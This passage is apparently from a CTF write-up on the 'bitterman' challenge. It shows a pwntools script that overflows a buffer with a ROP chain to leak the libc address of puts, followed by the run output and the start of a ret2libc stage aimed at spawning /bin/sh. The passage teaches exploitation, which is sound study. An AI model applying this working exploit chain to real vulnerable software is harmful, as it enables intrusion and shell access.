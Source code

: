 Let's make the exploit:-

First off, we have `pop_rdi` gadget address and **PLT** and **GOT** `puts` address.

```
from pwn import * # importing fuctions 
#context(terminal=['gnome-terminal','new-window']) Debug purpose
#context.log_level = 'DEBUG' # Debug purpose
p = process('./bitterman') # using bitterman elf # processing the target elf
#p = gdb.debug('./bitterman','b main') # breakpoint setup at main via gdb
plt_put = p64(0x400520) # PLT put address 
got_put = p64(0x600c50) # GOT put address
pop_rdi = p64(0x400853) # pop_rdi address

padding = "A"*152 # Because we know the offset from earlier

payload = padding +  pop_rdi + got_put + plt_put 

p.recvuntil("name?") # recieve data until we recieve the string
p.sendline("robin")  # send data 
p.recvuntil("message:") # recieve data until we recieve the string
p.sendline("1024") # send data 
p.recvuntil("text:") # recieve data until we recieve the string
p.sendline(payload) # send data
p.recvuntil("Thanks!") # recieve data until we recieve the string
leaked_puts = p.recv()[:8].strip().ljust(8,"\x00") # recieving the string until we get leaked address and padding with null bytes to length of 8
log.success("Leaked puts: %s" %(leaked_puts)) # Prints the leaked addresss
p.interactive() # keeps the shell interactive
```
This script pretty much explains everything with comments. So, let's see what we get after running this:-

```
[+] Starting local process './bitterman': pid 3117
[*] '/home/robin/ROP-Emporium/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Leaked puts: ��E\x92\x87\x7f\x00\x00
[*] Switching to interactive mode
```

Great, we now have the leaked address, we need to find the offset which will be constant for every address. So, let's start carfting our **ret2libc** attack.

# Stage 2: Final Exploit using ret2libc

So, from the previous exploit we get the leaked address. Now we need to find the offset and execute the `/bin/sh` to spawn a shell.
